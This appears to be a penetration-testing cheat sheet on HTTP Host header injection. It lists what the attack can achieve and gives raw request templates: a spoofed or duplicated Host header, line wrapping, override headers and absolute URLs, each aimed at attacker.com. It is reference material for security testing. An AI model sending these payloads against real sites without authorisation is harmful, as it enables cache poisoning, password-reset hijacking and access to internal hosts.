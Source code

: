 # Host Header Injection
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior.

### attacker can supply invalid input to cause the web server to:
* Dispatch requests to the first virtual host on the list.
* Perform a redirect to an attacker-controlled domain.
* Perform web cache poisoning.
* Manipulate password reset functionality.
* Allow access to virtual hosts that were not intended to be externally accessible.

## How to exploit
* Change the host header
```html
GET /example HTTP/1.1
Host: attacker.com
...
```
* Duplicating the host header
```html
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: attacker.com
...
```
* Add line wrapping
```html
GET /example HTTP/1.1
 Host: vulnerable-website.com
Host: attacker.com
...
```
* Add host override headers
```html
X-Forwarded-For: attacker.com
X-Forwarded-Host: attacker.com
X-Client-IP: attacker.com
X-Remote-IP: attacker.com
X-Remote-Addr: attacker.com
X-Host: attacker.com
Forwarded: attacker.com

# How to use? In this case im using "X-Forwarded-For : attacker.com"
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : attacker.com
...

# Supply an absolute URL
GET https://vulnerable-website.com/ HTTP/1.1
Host: attacker.com
...
```






